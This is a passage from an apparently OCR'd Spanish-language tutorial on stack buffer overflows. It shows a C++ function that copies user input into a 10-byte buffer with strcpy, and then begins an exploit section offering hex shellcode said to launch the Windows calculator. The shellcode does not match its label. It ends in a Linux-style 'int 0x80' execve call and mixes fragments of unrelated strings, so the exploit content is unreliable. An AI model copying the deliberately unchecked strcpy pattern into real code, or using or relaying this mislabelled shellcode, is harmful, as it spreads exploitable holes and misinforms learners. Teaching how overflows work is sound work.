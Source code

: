         void vulnerableFunction(char* input)
        {
            char buffer[10];
            strcpy(buffer, input);
            std::cout << "Buffer: " << buffer << std::endl;
        }

        int main()
        {
            char userInput[20];
            std::cout << "Ingrese una cadena de más de 10 caracteres: ";
            std::cin >> userInput;
            
            vulnerableFunction(userInput);
            
            return 0;
        }


En este ejemplo, la función vulnerableFunction recibe un parámetro input y copia su contenido en un búfer de tamaño fijo de 10 bytes. Sin embargo, si el usuario ingresa una cadena de caracteres que excede el tamaño del búfer, se producirá un desbordamiento de búfer, lo que puede permitir que un atacante sobrescriba la memoria adyacente y ejecute código malicioso.

Este tipo de vulnerabilidad es comúnmente explotado para ejecutar código arbitrario o realizar ataques de denegación de servicio.


## Exploit para ejecutar la calculadora de windows
Para lograr que se ejecute la calculadora de Windows como parte del desbordamiento de búfer en el ejemplo anterior, necesitamos crear un payload que contenga un shellcode específico. Aquí tienes un ejemplo de cómo podría ser el payload:


// Estas son las directivas de preprocesador que incluyen las bibliotecas necesarias para utilizar
// las funciones estándar de entrada/salida y manipulación de cadenas.

#include <iostream>
#include <cstring>


// Aquí se define una variable llamada shellcode que contiene el shellcode en formato de cadena de
// caracteres. El shellcode está representado en formato hexadecimal y es específico para ejecutar
// la calculadora de Windows.

        const char shellcode[] = "\x31\xc0\x50\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x50\x68\x64\x6f\x77\x6e\x68\x72\x33\x32\x2e\x68\x75\x73\x65\x72\x68\x33\x32\x2e\x64\x68\x6c\x6c\x33\x2e\x68\x65\x78\x65\x2e\x68\x65\x2e\x6f\x72\x68\x2e\x6f\x72\x67\x68\x65\x72\x74\x61\x68\x33\x32\x2e\x64\x68\x73\x68\x65\x6c\x89\xe1\x50\x68\x63\x61\x6c\x63\x89\xe2\x52\x51\x53\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80";


// Esta función vulnerableFunction recibe un puntero a un char como argumento. En ella se declara 
// una variable buffer de tamaño 10 y se utiliza la función strcpy para copiar el contenido del 
// argumento input al buffer. Esto crea una vulnerabilidad de desbordamiento de búfer, ya que no 
// se realiza ninguna verificación del tamaño de input antes de copiarlo en buffer. Finalmente, 
// se imprime el contenido de buffer en la consola.

